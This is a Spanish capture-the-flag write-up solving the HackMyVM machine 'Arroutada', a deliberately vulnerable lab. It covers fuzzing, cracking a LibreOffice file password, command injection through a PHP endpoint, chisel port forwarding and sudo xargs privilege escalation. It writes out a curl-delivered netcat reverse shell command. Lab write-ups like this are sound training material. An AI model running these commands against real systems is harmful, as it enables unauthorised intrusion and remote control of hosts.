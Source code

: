 ```yaml
---
layout      : post
title       : "Arroutada - HackMyVm"
author      : elc4br4
image       : /assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
optimized_image : /assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
description : En esta ocasión resolvemos la máquina Arroutada creada por Rijaba1 que está disponible en la plataforma de HackmyVm.
---
```


En esta ocasión resolvemos la máquina Arroutada creada por Rijaba1 que está disponible en la plataforma de HackmyVm.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
3. [Escalada de Privilegios](#priv-esc).
***
# Reconocimiento [#](reconocimiento) {#reconocimiento}

Comenzamos como siempre lanzando nmap para realizar un reconocimiento de puertos.

`nmap -p- -Pn -n --min-rate 5000 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled.png)

A continuación lanzo una serie de scripts básicos de nmap (sC) y el parámetro sV para descubrir los servicios y versiones que corren en cada puerto, en este caso solo en el puerto 80, ya que es el único puerto abierto.

`nmap -p80 -sCV -n -Pn 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%201.png)

Tenemos un servidor **apache httpd 2.4.54** y poco más, por lo que comienzo a enumerar.

# Explotación [#](explotación) {#explotación}

Tras acceder desde el navegador encontré lo siguiente:

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%202.png)

Parece una simple imagen pero podría tener algo escondido por lo que decido descargarla y lanzar herramienta **exiftool** para **analizar los metadatos de la imagen** y buscar posibles pistas.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%203.png)

Y encuentro una ruta “**/scout**” por lo que accedo a ella desde el navegador.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%204.png)

Vemos otra ruta **/scout/******/docs** pero nos falta descubrir la ruta que hay entre medias, por lo que toca **fuzzear** y para ello usaré **wfuzz**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%205.png)

Y encuentro la ruta **/j2**, por lo que ya tengo la ruta completa asique accedo a la misma desde el navegador.

Al accede encuentro un montón de archivos.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%206.png)

En el archivo **pass.txt** no hay nada de interés pero el archivo **shellfile.ods** si me llama la atención, la **extensión .ods** es de **LibreOffice** por lo que lo descargo y lo abro pero me pide contraseña…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%207.png)

Para poder craquearlo existe una utilidad de **John The Ripper** llamada **libreofficejohn2.py** con la que puedo generar el hash y craquearlo después.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%208.png)

Ahora lo crackeo con John y obtengo la contraseña.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%209.png)

**john11** es la contraseña.

Abro el archivo y encuentro esto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2010.png)

Encuentro otra ruta, esta vez un archivo php, por lo que podría haber un **RCE** asique pruebo a fuzzear de nuevo…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2011.png)

Veo que el parámetro a es el que necesito para ejecutar el RCE pero al intentarlo me arroja otro un error.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2012.png)

Se me ocurre combinar el parámetro **a con el b** y **fuzzear** de nuevo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2013.png)

Y por suerte lo consigo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2014.png)

Por lo que ahora intento obtener acceso al sistema introduciendo una **reverse shell en netcat**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2015.png)

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2016.png)

Consigo acceso a la máquina pero primero he de realizar el tratamiento de la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```

Tras **actualizar la tty** echo un vistazo a los usuarios existentes en la máquina y veo que existe el usuario **drito**, por lo que lo primero será migrarme a este usuario asique procedo a enumerar un poco…

Lo primero que hago es buscar **procesos existentes** pero no veo nada que me llame la atención, por lo que mi siguiente paso es buscar algún puerto abierto…

Hago uso del comando **netstat** pero no está instalado en el sistema por lo que pruebo a usar `ss -tulpn` y veo que existe el **puerto 8000** abierto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2017.png)

Para poder acceder a este puerto he de usar **chisel** o parecidos para poder efectuar un **Port Forwarding**.

Paso el binario de **chisel** a la máquina víctima y efectúo los siguientes comandos.

- En la máquina atacante

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2018.png)

- En la máquina víctima

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2019.png)

Ahora ya puedo acceder al puerto 8000 desde mi navegador, y encuentro lo siguiente.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2020.png)

Es una cadena ofuscada en Brainfuck, por lo que la desofusco y veo el contenido.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2021.png)

- all HackMyVM hackers!!

Pero no me sirve de nada por lo que regreso al navegador e inspecciono el código fuente por si me he dejado algo por ahí…

Y por suerte encuentro una ruta **/priv.php**

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2022.png)

Accedo a la ruta e inspecciono el código fuente

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2023.png)

Nos dice que falta un parámetro (command) y podemos ver que el propio parámetro ha de ir en json, por lo que vamos a probar a hacerle una petición POST con curl usando el parámetro command y metiendo la data en json.

Esto lo hago de la siguiente forma:

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "whoami;id;hostname"}´             
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2024.png)

Al ver que funciona lo que hago es intentar ganar acceso a la máquina a través de una reverse shell en netcat.

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "nc -e /bin/bash 192.168.0.18 1234"}´
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2025.png)

Consigo ganar acceso a la máquina como el usuario **drito**, por lo que lo siguiente paso es escalar privilegios a root, pero antes como de costumbre lo primero es actualizar la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```
# ESCALADA DE PRIVILEGIOS [#](priv-esc) {#priv-esc}

Tras actualizar la tty lanzo el comando `sudo -l.`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2026.png)

Puedo ejecutar el binario xargs como root sin contraseña por lo que lo primero que se me ocurre al tratarse de un binario es dirigirme a [gtfobins](https://gtfobins.github.io/).

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2027.png)

Ejecuto el comando y… me convierto en **root**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2028.png)

Gracias Rijaba por esta máquina!!!! 